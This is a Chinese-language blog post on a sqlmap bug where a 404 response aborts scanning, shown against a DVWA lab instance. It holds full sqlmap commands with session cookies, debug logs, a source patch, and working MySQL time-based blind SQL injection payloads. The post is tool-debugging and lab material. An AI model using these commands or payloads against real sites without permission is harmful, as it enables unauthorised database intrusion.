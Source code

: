```yaml
---
layout:     post
title:      sqlmap对状态码404处理的bug
date:       2017-08-20
summary:    sqlmap对状态码404处理的bug
categories: web
tags:
 - sqlmap
 - python
---
```


### About

sqlmap对页面遇到404响应码后直接抛出一个异常并退出sqlmap不再进行后续的paylaod测试,在用sqlmap测试sql注入点的时候,一
般用到`--batch`参数来节省时间,这种情况下sqlmap有一处对http状态码404的处理不当导致无法测出注入点的bug

### Detail

在爬虫时get请求的url可轻易爬到,但是post请求的url及post的数据的取得需要探测html中有没有表单相关的关键字,并通过表单
来构造post参数的值并提交来获取后续返回内容,如下例中详情:

安装dvwa设置level=low,测试`SQL Injection(Blind)`这一项时,参数是通过表单来提交的,点击`submit`提交后会将输入框`User
ID`中的内容以get请求发送到服务器,例如在文本框中输入1则浏览器将对应访问`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#`

<img src="https://raw.githubusercontent.com/3xp10it/pic/master/sqlmap404bug-1.png">

尝试用sqlmap跑出这个注入点,语句如下:

    sqlmap -u "http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low'

这样是可以跑出来的,但是要提高效率用工具自动发现这个漏洞时,一般这样用sqlmap:

    sqlmap -u "http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='...'

由于这里的id参数的值通过爬虫无法获得,因为这个id参数的值是通过表单提交的,爬虫最多可得到的url为:
    
    http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#

上图中的`Submit`按钮对应的应该是js处理的动作,js将表单通过get请求发送到服务器,这种情况下,需要用selenium+phantomjs
来获得上面的url(或者使用sqlmap中的`--forms`参数来捕获这样的表单),而就算得到了url,由于这个url中的`id=`,也即id值为空,
这种情况下,sqlmap的`--batch`参数的处理是随机赋值给id并测试各种payload(eg,id=1389),然而dvwa中的这个页面在服务器上的
处理并不一般,如果用户提交的id参数在服务器上没有查询到,服务器会响应404状态码(可能一般waf也会这样做),而sqlmap遇到
404状态码,直接就抛出异常并退出了,这样导致无法用sqlmap的`--batch`参数测出这个sql注入点

其实如果用selenium+phantomjs得到了url`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#`后
如果服务器正常响应查询(这里的dvwa不正常响应,对查不到的统一返回404状态码),用sqlmap是可以检测到这种不带具体值的参数
类型url的注入点的,但是要设置`--risk=3`,默认的sqlmap的risk值为1,为1时sqlmap不会测试`' or [sqli] and '1'='1`(要测出
不带参数值的参数的注入点则要通过`or`来测试),也即要发挥sqlmap的功能最好设置`--batch --risk=3 --forms`.试试直接用这种
方法测试上面的注入点(在dvwa中对应的页面为`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/`):

```
/tmp/sqlmap [master] » python2 sqlmap.py -u "192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low' --risk 3 --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.1.8.6#dev}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:40:30

[14:40:30] [DEBUG] cleaning up configuration parameters
[14:40:30] [DEBUG] setting the HTTP timeout
[14:40:30] [DEBUG] setting the HTTP Cookie header
[14:40:30] [DEBUG] creating HTTP requests opener object
[14:40:30] [DEBUG] resolving hostname '192.168.8.190'
[14:40:30] [INFO] testing connection to the target URL
[14:40:30] [DEBUG] declared web page charset 'utf-8'
[14:40:30] [INFO] searching for forms
[14:40:30] [DEBUG] initializing the knowledge base
[#1] form:
GET http://192.168.8.190:80/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit
Cookie: PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low
do you want to test this form? [Y/n/q]
> Y
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
Edit GET data [default: id=&Submit=Submit]: id=&Submit=Submit
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
do you want to fill blank fields with random values? [Y/n] Y
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
[14:40:30] [INFO] resuming back-end DBMS 'mysql'
[14:40:30] [INFO] using '/var/root/.sqlmap/output/results-08202017_0240pm.csv' as the CSV results file in multiple targets mode
[14:40:30] [DEBUG] resolving hostname '192.168.8.190'
[14:40:30] [DEBUG] declared web page charset 'utf-8'
[14:40:30] [CRITICAL] page not found (404)
[14:40:30] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[14:40:30] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/var/root/.sqlmap/output/results-08202017_0240pm.csv'

[*] shutting down at 14:40:30
```

发现sqlmap跑不出来,尝试修改sqlmap代码,结果中有关键字`page not found (404)`,于是定位相关代码:

    cd /tmp/sqlmap && grep -r "page not found" .

结果如下:

```
./lib/request/connect.py:                    errMsg = "page not found (%d)" % code
./lib/request/connect.py:                    debugMsg = "page not found (%d)" % code
./lib/utils/crawler.py:                    if "page not found" in getSafeExString(ex):
```

于是修改./lib/request/connect.py中代码:

```
elif ex.code == httplib.NOT_FOUND:
    if raise404:
        errMsg = "page not found (%d)" % code
        raise SqlmapConnectionException(errMsg)
    else:
        debugMsg = "page not found (%d)" % code
        singleTimeLogMessage(debugMsg, logging.DEBUG)
```

将其中的raise SqlmapConnectionException(errMsg)注释掉后再重新用刚才的sqlmap语句测试可测出这个注入点,详情如下:

```
/tmp/sqlmap [master●] » python2 sqlmap.py -u "192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low' --risk 3 --batch
[14:48:41] [DEBUG] checking for filtered characters
[14:48:41] [PAYLOAD] OOFt' OR 6597=IF((3988>3987),SLEEP(5),6597) AND 'sIjt'='sIjt
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
[14:49:06] [DEBUG] used the default behaviour, running in batch mode
sqlmap identified the following injection point(s) with a total of 146 HTTP(s) requests:
    ---
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: id=OOFt' OR SLEEP(5) AND 'CaKs'='CaKs&Submit=Submit
    Vector: OR [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
    ---
do you want to exploit this SQL injection? [Y/n] Y
[14:49:06] [DEBUG] used the default behaviour, running in batch mode
[14:49:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[14:49:06] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 131 times
[14:49:06] [INFO] you can find results of scanning in multiple targets mode inside the CSV file
'/var/root/.sqlmap/output/results-08202017_0246pm.csv'

[*] shutting down at 14:49:06
```
